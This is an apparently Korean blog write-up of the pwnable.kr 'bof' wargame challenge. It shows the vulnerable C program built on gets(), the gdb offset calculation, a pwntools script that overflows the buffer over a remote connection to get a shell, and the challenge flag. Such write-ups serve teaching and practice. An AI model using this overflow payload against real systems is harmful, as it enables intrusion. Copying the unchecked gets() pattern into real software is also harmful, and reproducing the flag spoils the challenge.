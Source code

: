 ```yaml
---
layout: post
title: pwnable.kr wargame bof write-up
---
```


<br>
문제는 [pwnable.kr](http://pwnable.kr/play.php)에서 받으실 수 있습니다.

----

<br>
{% highlight c linenos %}
#include <stdio.h>
#include <string.h>
#include <stdlib.h>

void func(int key){
  char overflowme[32];
  printf("overflow me : ");
  gets(overflowme);	// smash me!
  if(key == 0xcafebabe){
    system("/bin/sh");
  }
  else{
    printf("Nah..\n");
  }
}
int main(int argc, char* argv[]){
  func(0xdeadbeef);
  return 0;
}
{% endhighlight %}

key가 0xcafebabe이면 쉘을 실행시켜준다.<br>
입력은 overflowme 변수에 받기 때문에 key와 overflowme의 거리를 알면<br>
bof를 할 수 있을 것이다.<br>
gdb로 실행시켜보자.<br>

![캡처](/assets/img.png)

두번째 함수 콜은 gets 함수를 호출하는 부분이다.
<br><br>여기에 overflowme가 인자로 들어가니까 
<br>**overflowme는 ebp - 0x2c** 에 있음을 알 수 있다.
<br><br>그 아래에 ebp+0x8 위치와 0xcafebabe를 비교하니까 
<br>**key는 ebp + 0x8** 에 위치하는 것을 알 수 있다.
<br><br>bof를 위해 채워줘야 하는 문자의 수는 **0x2c + 0x8 = 0x34(52)** 이다.
<br>이제 페이로드를 짜고 실행시켜보자.

{% highlight python linenos %}
from pwn import *

p = remote('pwnable.kr','9000')
#p = process('./bof')

payload = 'A' * 52
payload += '\xbe\xba\xfe\xca'

p.sendline(payload)
p.interactive()
{% endhighlight %}

![캡처](/assets/R1280x0-2.png)
성공적으로 쉘을 획득했다.
<br>
FLAG : daddy, I just pwned a buFFer :)